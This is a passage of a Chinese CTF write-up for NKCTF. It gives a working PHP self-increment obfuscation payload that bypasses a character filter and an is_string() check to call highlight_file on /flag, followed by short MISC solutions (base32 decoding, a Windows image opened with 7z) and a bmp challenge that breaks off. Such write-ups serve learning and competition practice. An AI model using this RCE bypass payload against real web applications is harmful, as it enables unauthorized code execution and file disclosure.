 不能使用`异或、取反、或`好像可以使用自增，但是限制了长度，可以读些简单的东西

这是根据ctfshow rce极限挑战改编的

[ctfshowRCE极限挑战](https://blog.csdn.net/m0_64815693/article/details/127951989)

我们先读一下phpinfo()，可以传数组 `NKCTF[]=1` 绕过 `is_string()`

![image-20230327150652441](https://s2.loli.net/2023/03/27/tsfo63xB9JdQkyH.png)

我们使用如下payload：

```php
NKCTF=$_=(_/_._)[_];$_%2B%2B;$%FA=$_.$_%2B%2B;$_%2B%2B;$_%2B%2B;$_=_.$%FA.%2B%2B$_.%2B%2B$_;$$_[_]($$_[%FA]);&_=highlight_file&%FA=/flag
```

很多函数被过滤了，我们使用`highlight_file`直接读flag

![image-20230327150853413](https://s2.loli.net/2023/03/27/gBH7mVjMDGZwcrF.png)



### MISC

#### hard-misc

```
JYYHOYLZIJQWG27FQWWOJPEX4WH3PZM3T3S2JDPPXSNAUTSLINKEMMRQGIZ6NCER42O2LZF2Q3X3ZAI=
```

base32解密





#### blue

<img src="https://s2.loli.net/2023/03/27/WV46CoPBYZManhS.png" alt="image-20230327151507045" style="zoom:50%;" />

下载后得到windows镜像，

![image-20230327151607984](https://s2.loli.net/2023/03/27/4vMzOe5SWmxtnsg.png)

我们直接使用7z打开：

<img src="https://s2.loli.net/2023/03/27/jnSKicCMmO5IHhq.png" alt="image-20230327152144402" style="zoom:50%;" />

找到flag





#### 三体

下载得到一张bmp图片

<img src="https://s2.loli.net/2023/03/27/DcviSEVNuBIfdC5.png" alt="image-20230327155216450" style="zoom:33%;" />
